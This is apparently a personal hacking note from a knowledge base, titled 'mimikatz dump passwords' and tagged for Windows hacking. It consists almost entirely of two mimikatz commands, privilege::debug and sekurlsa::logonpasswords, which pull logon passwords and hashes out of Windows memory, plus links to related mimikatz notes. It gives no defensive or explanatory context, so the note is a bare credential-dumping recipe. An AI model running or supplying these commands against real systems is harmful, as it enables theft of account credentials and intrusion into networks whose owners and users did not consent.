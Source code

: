 # mimikatz dump passwords
```
privilege::debug
sekurlsa::logonpasswords
```

# Related

- [20221003151089](/zet/20221003151089/README.md) mimikatz
- ~/kb/hacking/windows/mimikatz.md

Tags:

    #assorted #hacking #windows #mimikatz
